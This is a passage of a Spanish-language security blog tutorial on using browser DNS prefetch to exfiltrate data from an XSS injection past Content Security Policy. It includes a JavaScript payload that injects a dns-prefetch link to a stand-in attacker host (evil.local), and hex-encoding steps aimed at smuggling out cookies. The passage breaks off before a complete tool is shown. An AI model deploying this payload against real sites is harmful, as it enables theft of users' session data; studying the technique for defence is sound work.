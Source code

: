 Exfiltración DNS? Cómo? Como algunos sabréis, los navegadores incorporan una funcionalidad que se llama *Prefetch*, que permite precargar un recurso que sabemos que vamos a utilizar después para agilizar la carga de la página. Uno de los recursos que podemos precargar son las resoluciones DNS.
{: style="text-align: justify;"}

<link rel="dns-prefetch" ref="http://evil.local"/>

Pues vamos a utilizar esto en nuestro ataque XSS para bypassear a CSP ya que las políticas CSP no afectan a las peticiones DNS. 
{: style="text-align: justify;"}

El código JS simple que vamos a incrustar va a ser este:
{: style="text-align: justify;"}
```
d=document;l=d.createElement('link');l.rel='dns-prefetch';l.href='http://xxx.evil.local/malacatones';h=d.getElementsByTagName('head')[0];h.appendChild(l)
```
[![Prueba de exfiltración DNS mediante etiqueta LINK](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-21-at-08.29.25-1024x737.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-21-at-08.29.25.png)

Bien, no? Pero hay varios problemas que tendremos que solucionar para que esto sea funcional:
{: style="text-align: justify;"}

-   Cantidad de información\
    **Sólo podemos pasar 63 caracteres** por cada subdominio. En muchos casos esto no será suficiente para exfiltrar datos correctamente. Las cookies pueden ocupar mucho más.
-   Codificación\
    Al contrario que exfiltrando por HTTP, en DNS tenemos un set limitado de caracteres que podemos utilizar. Si usamos caracteres no permitidos, el navegador no realizará la query. 
-   Sesión\
    Deberíamos ser capaces de relacionar las llamadas de una sesión para poder concatenar datos

Con esto, sabemos que debemos codificar el output para poder pasar cualquier tipo de carácter y esta salida debe dividirse para enviarla mediante varias peticiones.
{: style="text-align: justify;"}

### Codificación

En cuanto a la codificación, el navegador parece que soporta Base64 y hexadecimal por defecto(sin cargar librerías externas). Después de probar con base64, nos dimos cuenta que no era posible ya que base64 es case sensitive y las queries DNS que realiza el navegador, no tienen por que llegar así al servidor remoto. Así pues, cambiamos a hexadecimal que es más simple todavía.
{: style="text-align: justify;"}

Ahora por cada carácter del contenido que queremos, debemos extraer
{: style="text-align: justify;"}
```
contenido.charCodeAt(x).toString(16)
```
[![String to hexadecimal](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-21-at-20.04.02-1024x285.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-21-at-20.04.02.png)

Como véis, esto tiene un problema. «\n» por ejemplo, resuelve con «a» quitando el «0» inicial, lo cual hará que nuestra string hexadecimal quede corrupta. Para solucionarlo, usamos padding con zeros:
{: style="text-align: justify;"}
```
caracter = contenido.charCodeAt(x).toString(16).padStart(2,0)
```
[![String to hexadecimal con padding de 0](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-21-at-20.06.11-1024x84.png)](https://donttouchmy.net/wp-content/uploads/2019/01/Screenshot-2019-01-21-at-20.06.11.png)
